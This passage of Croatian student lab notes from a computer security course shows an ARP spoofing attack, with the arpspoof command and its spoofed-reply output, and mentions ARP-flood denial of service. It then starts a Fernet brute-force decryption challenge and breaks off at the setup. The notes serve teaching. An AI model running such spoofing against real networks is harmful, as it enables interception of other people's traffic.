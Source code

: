 Napad se izvršava preko evil-stanice naredbom arpspoof i njezine konfiguracije nakon koje slijedi slanje arp replayeva žrtvi 1.

```c
arpspoof -t station-1 station-2
2:42:ac:12:0:3 2:42:ac:12:0:2 0806 42: arp reply 172.18.0.4 is-at 2:42:ac:12:0:3
2:42:ac:12:0:3 2:42:ac:12:0:2 0806 42: arp reply 172.18.0.4 is-at 2:42:ac:12:0:3
2:42:ac:12:0:3 2:42:ac:12:0:2 0806 42: arp reply 172.18.0.4 is-at 2:42:ac:12:0:3
```

Naredbom tcpdump kreće praćenje prometa žrtvi.

![Untitled](Sigurnost%20rac%CC%8Cunala%20i%20podataka/Untitled%202.png)

AR Protokol, odnosnje njegove slabosti mogu se koristiti i za napad na dostupnost korisnikovih podataka. 
Denial of service ili reduction of service napadi izvode se gušenjem prometa jedne od žrtviju floodanjem te žrtve sa arp replayevima.

# **Lab 2: Symmetric key cryptography - a crypto challenge**

U sklopu 2. vježbe proučavali smo proces kriptiranja i dekriptiranja u uvjetima enkripcije sa simetričnim ključem.

Kao glavni alat smo koristili [Fernet](https://cryptography.io/en/latest/fernet/).

Fernet koristi navedene kriptografske mehanizme manje kompleksije:

- AES šifru sa 128 bitnim ključem
- CBC enkripcijski način rada
- HMAC sa 256 bitnim ključem za zaštitu integriteta poruka
- Timestamp za osiguravanje svježine (*freshness*) poruka

Vježbi je dodan izazov dekripcije u kojemu je ime datoteke ključ, a datoteka sadrži ciphertext koji se dekripcijom pretvara u png koji čestita korisniku.

Ispravan ključ za dekripciju pronalazimo brute-force napadamo te koristimo aplikaciju koja radi na jednoj jezgri ili na više njih.

Rad jezgri može se provjeriti preko task managera, gdje smo pri kraju vježbe utvrdili ispravnost koda i njegovo korištenje resursa (laptop u laboratoriju sadrži i5 7500u čiji je thread bio na 50% iskorištenosti pri rješavanju 20-bitne entropije).

![Untitled](Sigurnost%20rac%CC%8Cunala%20i%20podataka/Untitled%203.png)

Program korišten za napad zasniva se na python jeziku i beskonačnom while loop-u koji uspoređuje dekriptirani plaintext sa zaglavljem datoteke u kojoj se nalaze informacije o samoj datoteci kao njezin tip (u ovom slučaju png).

**Pokretanje python virtualke**

```bash
python -m venv jbejo
```

**Instalacija i importanje Ferneta**
